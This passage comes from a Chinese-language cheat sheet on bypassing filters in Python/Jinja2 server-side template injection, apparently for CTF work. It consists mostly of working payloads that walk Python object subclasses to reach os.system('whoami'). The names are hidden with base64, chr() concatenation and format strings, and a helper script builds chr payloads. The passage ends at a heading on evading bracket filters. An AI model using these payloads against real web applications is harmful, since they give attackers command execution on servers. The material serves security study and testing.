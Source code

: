 ```python
"fl""ag.txt"
```

### 编码

本质上还是对字符串进行操作, 可以配合 `__dict__` 从而对函数名进行编码

#### base64

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['b3M='.decode('base64')].__dict__['c3lzdGVt'.decode('base64')]('d2hvYW1p'.decode('base64')) # os.system('whoami')
```

#### ASCII

flask 环境下 chr 需要在 `__builtins__` 里面找

```python
{% set chr=''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)) # os.system('whoami')
```

生成 chr payload

```python
def toChr(s):
    l = []
    for i in s:
        l.append('chr(' + str(ord(i)) + ')')
    return '+'.join(l)
```

或者用另外一种方式

格式化字符串转换 ascii 码

```python
'{:c}{:c}{:c}{:c}{:c}{:c}{:c}{:c}'.format(102,108,97,103,46,116,120,116)
```

#### 十六进制

```python
'68656c6c6f'.decode('hex') # hello
```

#### rot13

```python
'uryyb'.decode('rot13') # hello
```

### 过滤 []
